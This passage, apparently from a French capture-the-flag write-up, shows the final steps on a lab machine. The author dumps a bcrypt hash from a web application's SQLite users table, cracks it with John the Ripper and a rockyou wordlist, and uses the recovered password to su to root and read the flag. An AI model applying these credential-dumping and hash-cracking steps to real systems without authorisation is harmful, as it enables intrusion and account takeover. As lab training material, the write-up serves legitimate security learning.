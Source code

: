 ```console
atom-2400-database.db: SQLite 3.x database, last written using SQLite version 3040001, file counter 4373, database pages 28, 1st free page 5, free pages 24, cookie 0x3, schema 4, UTF-8, version-valid-for 4373
onida@atom:/var/www/html$ sqlite3 atom-2400-database.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
login_attempts  users         
sqlite> select * from users;
1|atom|$2y$10$Z1K.4yVakZEY.Qsju3WZzukW/M3fI6BkSohYOiBQqG7pK1F2fH9Cm
```

Je récupère le hash, je le préfixe par `atom:` puis j'ajoute 7 fois le caractère `:` après le hash histoire que JtR soit content.

```console
$ john --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 24 [worst case UTF-8] to 72 [ASCII] truncated (property of the hash)
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
madison          (atom)     
1g 0:00:00:03 DONE (2025-05-24 10:33) 0.3279g/s 70.82p/s 70.82c/s 70.82C/s manuel..jessie
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Cette fois, on tient notre root :

```console
onida@atom:/var/www/html$ su root
Password: 
root@atom:/var/www/html# cd
root@atom:~# ls
root.txt
root@atom:~# cat root.txt 
d3a4fd660f1af5a7e3c2f17314f4a962
```
